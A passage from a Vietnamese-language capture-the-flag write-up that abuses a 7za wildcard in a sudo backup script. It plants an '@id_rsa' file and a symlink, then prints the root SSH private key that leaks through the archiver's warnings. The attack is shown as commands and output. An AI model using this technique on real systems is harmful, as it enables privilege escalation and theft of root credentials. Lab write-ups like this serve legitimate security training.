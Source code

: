 Phần `/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *`, tôi đã tìm thấy cách khai thác nó trên hacktricks book, có tên là [Wildcards Spare tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks?source=post_page-----f1c2793eeb7e--------------------------------)

Tôi sẽ thử lấy private key của root (dù tôi không chắc là nó có tồn tại hay không)

```python
xander@usage:~$ cd /var/www/html/
xander@usage:/var/www/html$ touch @id_rsa
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7313P 16-Core Processor                (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 54871532

Scanning the drive:
          
WARNING: No more files
-----BEGIN OPENSSH PRIVATE KEY-----


WARNING: No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW


WARNING: No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi


WARNING: No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q


WARNING: No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs


WARNING: No more files
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=


WARNING: No more files
-----END OPENSSH PRIVATE KEY-----

2984 folders, 17973 files, 113884398 bytes (109 MiB)

Updating archive: /var/backups/project.zip

Items to compress: 20957

                                                                               
Files read from disk: 17973
```